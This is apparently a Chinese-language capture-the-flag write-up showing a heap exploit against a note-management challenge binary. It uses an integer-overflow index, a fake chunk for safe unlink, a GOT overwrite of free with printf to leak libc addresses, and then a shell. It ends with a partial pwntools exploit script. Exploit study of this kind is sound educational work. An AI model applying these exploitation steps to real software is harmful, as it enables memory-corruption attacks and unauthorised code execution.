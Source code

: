 ```
note5_size
note6_size
note7_size
```
首先創建8個note，然後edit note3使current_ptr指向note3，之後使用-1溢出note3
```
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')
new(512,'a')

edit(3,'a')
edit(-9223372036854775808,data);
```

我們使用的溢出數據是用於構造一個fake chunk來實現safe unlink的利用，具體的原理可以看這一章節的講解。

```
data = ''
data += p64(0) + p64(512+1) #fake chunk header
data += p64(0x6020e0-0x18) + p64(0x6020e0-0x10) #fake fd and bk
data += 'A'*(512-32)
data += p64(512) + p64(512+16)
```

之後釋放note4，note3與note4就會合並。note3_ptr會指向note0_ptr的位置。這樣我們通過不斷的修改note0_ptr的值和edit note0就可以實現任意地址寫數據。

但是題目沒有提供show功能，所以無法進行任意地址讀，也就無法泄漏數據。
這裏採用的辦法是把free的got表改爲printf的值，然後在bbs中一塊空白的區域寫入"%x"。
這樣當free這塊區域（這塊區域在ptr_array中，所以可以直接傳遞給free），就可以泄漏出棧中的數據。
通過棧中的libc地址求出system的地址就可以利用任意地址寫獲得shell

```
free(4)

edit(3,free_got)
edit(0,printf_plt)

edit(3,p64(0x6020e8))
edit(0,'%llx.'*30)
```
完成的exp如下

```
#!/usr/bin/python
# -*- coding: utf-8 -*-
from pwn import *
import time
def malloc(size,data):
    print conn.recvuntil('>>')
    conn.sendline('1')
    print conn.recvuntil('1024)')
    conn.sendline(str(size))
    print conn.recvuntil('content:')
    conn.sendline(data)
    print conn.recvuntil('\n')
def edit(id,data):
    print conn.recvuntil('>>')
    conn.sendline('3')
    print conn.recvuntil('note:')
    conn.sendline(str(id))
    print conn.recvuntil('ent:')
    conn.sendline(data)
```